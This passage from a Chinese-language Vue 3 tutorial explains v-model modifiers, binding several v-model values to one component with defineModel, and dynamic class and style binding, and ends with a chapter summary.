// .trim —— 自动去除首尾空格
const trimmedInput = ref('')
</script>

<template>
  <!-- .lazy：只在 change 事件时更新（适合大文本输入，减少更新次数） -->
  <textarea v-model.lazy="lazyInput" placeholder="输入后失去焦点才更新..."></textarea>
  <p>当前值：{{ lazyInput }}</p>

  <!-- .number：把输入自动转成数字类型 -->
  <!-- 如果输入的不是数字，保留原值 -->
  <input v-model.number="numericInput" type="text" placeholder="输入数字..." />
  <p>类型：{{ typeof numericInput }}，值：{{ numericInput }}</p>

  <!-- .trim：自动 trim 掉首尾空格 -->
  <input v-model.trim="trimmedInput" placeholder="输入带空格的文本..." />
  <p>去空格后：'{{ trimmedInput }}'</p>
</template>
```

**`.number` 的一个小坑：** 如果用户输入以数字开头但后面有字母，比如 `"123abc"`，Vue 会保留原值（因为无法转成纯数字）。有时候这会导致 `NaN` 的问题，需要额外处理。

### 3.5.3 多个 v-model 绑定

Vue 3 允许在一个组件上绑定多个 `v-model`：

```vue
<script setup>
import { ref } from 'vue'

const firstName = ref('')
const lastName = ref('')
const email = ref('')
</script>

<template>
  <!-- 一个组件上可以绑定多个 v-model -->
  <!-- 每个 v-model 绑定一个独立的数据 -->
  <UserForm
    v-model:first-name="firstName"
    v-model:last-name="lastName"
    v-model:email="email"
  />

  <p>完整姓名：{{ firstName }} {{ lastName }}</p>
  <p>邮箱：{{ email }}</p>
</template>
```

在子组件里，只需要用 `defineModel` 来声明每个 v-model：

```vue
<!-- UserForm.vue -->
<script setup>
// Vue 3.4+ 推荐写法：直接用 defineModel，无需额外 defineProps
// defineModel 会自动声明对应的 props，并返回响应式 ref
const firstName = defineModel('firstName')
const lastName = defineModel('lastName')
const email = defineModel('email')
</script>

<template>
  <input v-model="firstName" placeholder="名" />
  <input v-model="lastName" placeholder="姓" />
  <input v-model="email" placeholder="邮箱" />
</template>
```

## 3.6 class 与 style 绑定

### 3.6.1 绑定 class（对象语法、数组语法）

Vue 允许动态绑定 HTML 的 class 属性，支持**对象语法**和**数组语法**两种方式。

```vue
<script setup>
import { ref } from 'vue'

const isActive = ref(true)
const hasError = ref(false)

// 多个 class 条件
const classObject = ref({
  active: true,
  'text-danger': false,
  highlighted: true
})

// 数组语法：把所有可能的 class 放在数组里
const activeClass = 'active'
const errorClass = 'text-danger'
const sizeClass = 'large'
</script>

<template>
  <!-- 对象语法：{ class名: 布尔值 } -->
  <!-- 当布尔值为 true 时，这个 class 会被应用 -->
  <div :class="{ active: isActive, 'text-danger': hasError }">
    对象语法绑定 class
  </div>

  <!-- 引用一个计算属性或 data 里的对象 -->
  <div :class="classObject">使用 classObject</div>

  <!-- 数组语法：把要应用的 class 放在数组里 -->
  <!-- 数组里的表达式值为 false/null/undefined 时，对应的 class 不应用 -->
  <div :class="[activeClass, errorClass, sizeClass]">数组语法绑定 class</div>

  <!-- 数组 + 三元表达式 -->
  <div :class="[isActive ? 'active' : '', errorClass]">混合用法</div>

  <!-- 在普通 class 基础上动态绑定 -->
  <div class="base-class" :class="{ active: isActive }">
    基础 class + 动态 class
  </div>
</template>
```

### 3.6.2 绑定 style（对象语法、数组语法）

和 class 一样，Vue 也支持动态绑定内联样式（`:style`），格式是 **CSS 属性名的驼峰写法**或**引号包裹的短横线写法**。

```vue
<script setup>
import { ref } from 'vue'

const activeColor = 'red'
const fontSize = 30

// style 对象语法：CSS 属性用驼峰命名
const styleObject = ref({
  color: 'blue',
  fontSize: '20px',
  backgroundColor: '#f0f0f0'
})
</script>

<template>
  <!-- style 对象语法 -->
  <div :style="{ color: activeColor, fontSize: fontSize + 'px' }">
    动态内联样式（对象语法）
  </div>

  <!-- 直接引用 style 对象 -->
  <div :style="styleObject">使用 styleObject</div>

  <!-- 数组语法：多个 style 对象合并 -->
  <div :style="[styleObject, { fontWeight: 'bold' }]">
    合并多个 style 对象
  </div>

  <!-- 给 CSS 属性加浏览器前缀时，Vue 会自动处理 -->
  <!-- transform: translateX(10px) → 在对象里写 transform: 'translateX(10px)' -->
  <div :style="{ transform: 'rotate(45deg)' }">旋转 45 度</div>
</template>
```

### 3.6.3 条件 class

最常见的 class 绑定场景是根据条件决定要不要加某个 class，比如"按钮在禁用状态下样式不同"：

```vue
<script setup>
import { ref } from 'vue'

const isDisabled = ref(false)
const buttonType = ref('primary')  // primary | danger | success
const isLoading = ref(false)
</script>

<template>
  <!-- 根据 isDisabled 动态添加 disabled class -->
  <button
    :class="{ disabled: isDisabled, loading: isLoading }"
    :disabled="isDisabled || isLoading"
  >
    {{ isLoading ? '加载中...' : '提交' }}
  </button>

  <!-- 根据 buttonType 应用不同颜色 -->
  <button :class="['btn', `btn-${buttonType}`]">
    {{ buttonType }} 按钮
  </button>

  <!-- 常见用法：列表项的奇偶行不同样式 -->
  <ul>
    <li
      v-for="(item, index) in items"
      :key="item.id"
      :class="{ 'list-item': true, 'list-item-even': index % 2 === 0 }"
    >
      {{ item.name }}
    </li>
  </ul>
</template>

<style scoped>
.btn {
  padding: 8px 16px;
  border: none;
  border-radius: 4px;
  cursor: pointer;
}

.btn-primary { background: #42b883; color: white; }
.btn-danger { background: #e63946; color: white; }
.btn-success { background: #2a9d8f; color: white; }

.disabled { opacity: 0.5; cursor: not-allowed; }
.loading { opacity: 0.7; cursor: wait; }
</style>
```

---

## 本章小结

本章我们学习了 Vue 3 最核心的模板语法，它们是 Vue 开发中最基础也最高频的技能：

- **模板语法**：双大括号 `{{ }}` 插值、v-html 渲染原始 HTML、v-bind `:xxx` 动态属性绑定，模板里可以使用任何 JS 表达式但不能写语句。
- **条件渲染**：v-if/v-else-if/v-else 实现真正的 DOM 创建和销毁，v-show 用 CSS display 控制显示隐藏，key 属性控制元素是否被复用。
- **列表渲染**：v-for 可以遍历数组、对象、数字、字符串，key 必须是唯一标识（不能用 index），Vue 3 能检测到 push/pop/splice 等数组操作的变化。
- **事件处理**：@click 等事件绑定，内联处理器和方法处理器两种写法，六种事件修饰符（stop/prevent/capture/self/once/passive），按键修饰符和系统修饰符。
- **双向绑定**：v-model 是 Vue 最核心的指令之一，支持 .lazy/.number/.trim 修饰符，一个组件可以绑定多个 v-model:xxx。
- **class 与 style 绑定**：对象语法和数组语法两种方式，可以和普通 class/style 混合使用。

下一章我们会深入 Vue 3 的灵魂——响应式系统，探讨 ref、reactive、computed、watch 这些核心概念，理解 Vue 是如何追踪数据变化并自动更新视图的。这是你从"会用 Vue"到"理解 Vue"的必经之路！

